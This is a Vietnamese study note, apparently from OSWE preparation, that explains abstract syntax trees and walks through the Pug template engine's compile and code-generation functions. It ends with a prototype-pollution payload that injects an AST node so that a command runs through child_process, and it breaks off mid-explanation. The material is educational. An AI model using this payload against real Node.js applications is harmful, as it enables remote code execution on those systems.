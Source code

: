 # AST Injection

<h1>Chỉ là note lại những gì đã học được</h1>

Trong khi đang speedrun OSWE đến những chương cuối của OSWE thì tôi gặp dạng bài Prototype Pollution (dạng bài mà tôi trước giờ chỉ copy & paste payload như 1 thằng n00b , anyway bây giờ vẫn là 1 thằng n00b) và nếu muốn rõ về cách payload hoạt động như thế nào thì tôi lại phải đi học Javascript. Một ngôn ngữ tôi không thích lắm vì logic ảo ma của nó nhưng biết sao giờ chẳng lẽ lại bỏ qua chương này và thế là lại phải học thôi !!

![](contrai.gif)

## AST là gì
Hiểu đơn giản AST (Abstract Syntax Tree) là cây biểu diễn cấu trúc cú pháp của mã nguồn của một 
ngôn ngữ nhất định ( [Chi tiết](https://www.twilio.com/blog/abstract-syntax-trees) )
![](ast.png)
AST được sử dụng thường xuyên trong JS ví dụ như: template engines, typescript, ... ( tôi cũng không rõ dùng ở typescript chỗ nào vì đọc nó bảo thế thì list nhìn cho nó dài thôi 🙃). Trong bài này thì ta tập trung vào template engines. Flow chung cho template engines như ảnh dưới đây:
![](template.jpg)

## Pug Template Engines
Trong bàhi này ta sẽ đi vào cụ thể một template engines đó là Pug vì đây là một trong nững template engines khá phổ biến của JS. Flow của Pug như sau:
![](pugast.jpg)
Đầu tiên chúng ta xem cách khao báo để tạo ra một template.
```
const pug = require('pug');

// Compile the source code
const compiledFunction = pug.compileFile('template.pug');

// Render a set of data
console.log(compiledFunction({
  name: 'Timothy'
}));
// "<p>Timothy's Pug source code!</p>"

// Render another set of data
console.log(compiledFunction({
  name: 'Forbes'
}));
// "<p>Forbes's Pug source code!</p>"
```
Ở đây nhận tham số đầu vào là một file có chứa các cú pháp của Pug. Sau khi xem xét qua hàm thì tôi tóm gọn lại là flow như sau **compileFile => handleTemplateCache => compile** nên chúng ta sẽ bắt đầu từ hàm compile(/pug/lib/index.js).

Trong hàm **compile** sẽ gọi đến hàm **compileBody** (hàm này trả về 1 object có thuộc tính *body* chứa code JS được tạo ra)
```
function compileBody(str, options) {
...
  var ast = load.string(str, { //magic })
...
  return {body: js, dependencies: dependencies};
}
```
Tiếp tục gọi đến hàm **load** và 1 cách magic ta có được giá trị AST. Sau khi có AST thì nó được truyền vào hàm **generateCode** (như cái tên của nó hàm này trả về code JS được tạo bởi AST)
```
var js = (findReplacementFunc(plugins, 'generateCode') || generateCode)(ast, {
    pretty: options.pretty,
    compileDebug: options.compileDebug,
    doctype: options.doctype,
    inlineRuntimeFunctions: options.inlineRuntimeFunctions,
    globals: options.globals,
    self: options.self,
    includeSources: options.includeSources ? debug_sources : false,
    templateName: options.templateName,
  });
```
Lần mò vào hàm **generateCode** thì hàm này tạo ra một đối tượng **Compiler** và gọi đến phương thức **compile**
```
function generateCode(ast, options) {
  return new Compiler(ast, options).compile();
}
=>
  compile: function() {
...
    this.visit(this.node); // code được gen và đẩy vào buff ở đây
...
```
Từ đây tất cả logic tạo code js từ AST đều ở đây.Ta sẽ phân tích 1 ví dụ như sau: 
```
const pug = require('pug');
compiledFunction = pug.compile("nothing",{debug:true})
```
Bây giờ giá trị của AST sẽ là:

![](astvalue.png)

Flow cơ bản của quá trình này là 

```
 visit: function(node, parent) {
    var debug = this.debug;

    if (!node) { 
        ... 
    }

    if (debug && node.debug !== false && node.type !== 'Block') {
      if (node.line) {
        var js = ';pug_debug_line = ' + node.line;
        if (node.filename)
          js += ';pug_debug_filename = ' + stringify(node.filename);
        this.buf.push(js + ';');
      }
    }

    if (!this['visit' + node.type]) { // Kiểm tra valid type của node
    ...
    }

    this.visitNode(node); // gọi đến hàm gen code với các type tương ứng
  }
```
Một số hàm gen code với các type
```
  visitText: function(text) {
    this.buffer(text.val);
  }
-------------------------------------------------------
  visitComment: function(comment) {
    if (!comment.buffer) return;
    if (this.pp) this.prettyIndent(1, true);
    this.buffer('<!--' + comment.val + '-->');
  }
-------------------------------------------------------
  visitCode: function(code) {
    // Wrap code blocks with {}.
    // we only wrap unbuffered code blocks ATM
    // since they are usually flow control

    // Buffer code
    if (code.buffer) {
      var val = code.val.trim();
      val = 'null == (pug_interp = ' + val + ') ? "" : pug_interp';
      if (code.mustEscape !== false)
        val = this.runtime('escape') + '(' + val + ')';
      this.bufferExpression(val);
    } else {
      this.buf.push(code.val);
    }

    // Block support
    if (code.block) {
      if (!code.buffer) this.buf.push('{');
      this.visit(code.block, code);
      if (!code.buffer) this.buf.push('}');
    }
  },
 
```

## Exp
Payload Prototype Injection
```
Object.prototype.block = {"type": "Text", "line": "console.log(process.mainModule.require('child_process').execSync('id').toString())"};

```
Tại sao ở đây lại chọn Text mà không phải các type khác:

